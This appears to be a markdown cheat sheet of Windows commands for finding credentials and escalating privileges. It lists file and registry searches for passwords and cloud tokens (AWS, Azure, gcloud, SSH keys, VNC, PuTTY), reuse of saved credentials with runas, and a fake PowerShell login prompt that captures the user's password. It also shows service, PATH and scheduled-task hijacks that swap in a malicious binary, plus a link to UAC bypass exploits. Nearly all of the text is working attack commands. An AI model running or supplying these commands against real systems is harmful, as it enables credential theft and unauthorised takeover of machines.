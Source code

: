 # Credentials Enum

## Low Hanging Passwords : 
```
> dir /b /a /s c:\ > c:\rto\c-dirs.txt 

> type c:\PATH\dirs.txt | findstr /i passw
```
## Interesting Files : 
```
> type c:\PATH\dirs.txt | findstr /i ssh 

> type c:\PATH\dirs.txt | findstr /i kdbx 

> type c:\PATH\dirs.txt | findstr /i vnc 

- [x] install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .config, .ini, .xml, .txt, .gpg, .pgp, .p12, .der, .csr, .cer, id_rsa, id_dsa, .ovpn, .rdp, vnc, ftp, ssh, vpn, git, .kdbx, .db 

- [x] unattend.xml 

- [x] Unattended.xml 

- [x] sysprep.inf 

- [x] sysprep.xml 

- [x] VARIABLES.DAT 

- [x] setupinfo 

- [x] setupinfo.bak 

- [x] web.config 

- [x] SiteList.xml 

- [x] .aws\credentials 

- [x] .azure\accessTokens.json 

- [x] .azure\azureProfile.json 

- [x] gcloud\credentials.db 

- [x] gcloud\legacy_credentials 

- [x] gcloud\access_tokens.db 
```
## Registry : 
```
> reg query "HKCU\Software\ORL\WinVNC3\Password" 

> reg query "HKCU\Software\TightVNC\Server" 

> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" 

> reg query "HKCU\Software\OpenSSH\Agent\Keys" 

> reg query HKLM /f password /t REG_SZ /s 

> reg query HKCU /f password /t REG_SZ /s 

```
## Abusing Credential Manager 

```
> cmdkey /list 

> runas /savecred /user:admin cmd.exe 

> runas /savecred /user:admin "c:\windows\system32\cmd /c dir /b /a /s c:\users\admin > c:\PATH\admin.txt" 
```
- Asking User for Creds
```
> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```
## Unsecured Objects
- Using Acesschk
 ```
> accesschk.exe -accepteula -wuvc "Everyone" *
> accesschk.exe -accepteula -wuvc "Users" *
> accesschk.exe -accepteula -wuvc "Authenticated Users" *
> accesschk.exe -accepteula -kvuqsw hklm\System\CurrentControlSet\services > c:\regs.txt 
```
- Searching for all unquoted services binary paths:  

``` 
> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """ 
```
- Checking sshd service configuration and status: 
``` 
> sc query sshd 
> sc qc sshd 
```
- Reonfiguration and exploitation: 
```
> sc config sshd binPath= "c:\mal.exe" 
> sc start sshd 
```
- Reconfiguring a vulnerable service: 
```
> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT 
> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d C:\mal.exe /f 
```
## Execution Flow Hijacking
- Unsecured File System 
```
> accesschk.exe -accepteula -wus "Users" c:\*.* > c:\fld-usr.txt 
> accesschk.exe -accepteula -wus "Authenticated Users" c:\*.* > c:\fld-authusr.txt 
```
- Exploiting PATH 

``` 
> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" 
> icacls c:\bin 
> copy c:\windows\system32\cmd.exe c:\bin\notepad.exe 
```
- Missing Services

```
> autorunsc64.exe -a s | more 
> sc query AdobeUpdate 
> sc qc AdobeUpdate 
> copy c:\mal.exe c:\bin\AdobeUpdate.exe 
```
- Missing Task 
``` 
> autorunsc64.exe -a t | more
> c:\autorunsc64.exe -a t | more  
> schtasks /query /tn OneDriveChk /xml 
> copy c:\mal.exe C:\OneDriveChk.exe 
```
- Converting SID to username: 
```
> wmic useraccount where sid='****' get name 
```
## DLL Hijacking 
- [UAC bypass exploits](https://github.com/hfiref0x/UADLL)

## GETTING SYSTEM
 -  AlwaysInstallElevated

```
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
```
- Abusing Tokens
```
> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT 
> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT 
> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d c:\tokendance.exe /f 
```
